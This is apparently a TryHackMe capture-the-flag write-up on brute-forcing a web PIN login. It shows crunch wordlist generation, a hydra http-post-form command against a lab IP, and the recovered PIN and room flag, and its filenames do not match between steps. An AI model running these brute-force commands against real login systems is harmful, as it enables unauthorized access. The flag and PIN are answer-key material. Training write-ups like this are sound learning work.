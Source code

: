 # Task 9 [Day 3] Brute-forcing: Hydra is Coming to Town
# The Story
![Image](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/87f456172b2ef2b072a057d4912dbfdf.svg)

## *Answer Of The Question Below*

#### Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag?
![IMAGE](1.png)
```html
<form method="post" action="login.php" class="grid grid-cols-3 max-w-lg mx-auto bg-thm-900 p-4 font-mono">
  <input type="hidden" name="pin" />
</html>
```
![Image](2.png)

#### Generating the Password List
```bash
mkdir passlist && cd passlist
```
![Image](3.png)

```bash
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
![Image](4.png)

 
#### Using the Password List
```bash
hydra -l '' -P 3pass.txt -f -v 10.10.172.65 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
![image](5(1).png)

#### Found Pin:
![image](6.png)
```python
6F5
```
![image](7.png)

#### Flag:
```python
THM{pin-code-brute-force}
```
![image](9.png)

#### End:
![image](10.png)







